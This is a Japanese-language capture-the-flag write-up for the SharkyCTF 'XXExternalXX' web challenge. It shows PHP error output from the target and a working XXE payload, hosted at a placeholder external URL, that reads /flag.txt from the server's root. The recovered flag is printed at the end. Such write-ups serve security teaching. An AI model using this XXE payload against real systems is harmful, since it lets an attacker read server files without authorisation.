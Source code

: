 # XXExternalXX:Web:70pts
One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.  
[xxexternalxx.sharkyctf.xyz](http://xxexternalxx.sharkyctf.xyz)  

# Solution
アクセスすると以下のようなサイトとなっている。  
Home  
[site1.png](site/site1.png)  
Show stored data  
[site2.png](site/site2.png)  
Show stored dataページに注目するとURLがhttp://xxexternalxx.sharkyctf.xyz/?xml=data.xml となっている。  
http://xxexternalxx.sharkyctf.xyz/?xml= にアクセスすると以下のエラーが出る。  
```text:エラー
Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 20

Warning: DOMDocument::loadXML(): Empty string supplied as input in /var/www/html/index.php on line 23

Warning: simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 24

Notice: Trying to get property 'data' of non-object in /var/www/html/index.php on line 25
```
XXEを行い、flag.txtを読み出せばよい。  
http://www.xxxxx.xxx/hack.xml には以下のxmlを設置した。  
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY satoki SYSTEM '/flag.txt'>]><root><data>&satoki;</data></root>
```
http://xxexternalxx.sharkyctf.xyz/?xml=http://www.xxxxx.xxx/hack.xml にアクセスするとflagが表示される。  
[flag.png](site/flag.png)  

## shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}